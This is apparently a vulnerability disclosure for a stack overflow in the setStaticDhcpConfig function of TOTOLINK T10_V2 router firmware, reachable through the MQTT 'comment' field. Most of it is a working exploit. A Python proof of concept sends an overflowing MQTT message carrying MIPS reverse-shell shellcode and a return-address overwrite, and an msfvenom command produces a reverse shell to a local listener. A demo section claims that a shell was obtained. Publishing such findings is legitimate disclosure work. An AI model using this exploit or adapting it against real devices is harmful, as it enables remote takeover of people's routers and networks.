 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setStaticDhcpConfig**.
Attackers can send dirty data by mqtt packet into parameter **comment** to control the return address and execute shellcode or make DoS attack. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/lan.so** <br>

In the function **setStaticDhcpConfig**, the content obtained by program through parameter **comment** given by MQTT data packet is passed to variable **v9**. 
Then, the variable **v9** will copy to the variable **v17+2**, however,**v17** is on the stack,but there isn't any length check of **v9**.
So we can set **addEffect** = **1** and **macAddress** = **which data you like** to execute **strcpy**,and set the length of **comment's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/4.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **comment** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

pay = "a"*122 + "\x90\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setStaticDhcpConfig',payload='{"topicurl":"setting/setStaticDhcpConfig","addEffect":"0","enable":"1","macAddress":":bbbb","comment":"'+pay+'"}'+'bbbbb'+buf)
```
**PS:** <br>
The offset maybe different in each device. <br>
**\x90\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
sfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========


Get the reverse shell!
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/2.jpg)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/3.jpg)
you can clearly sea the connection between two device is built.
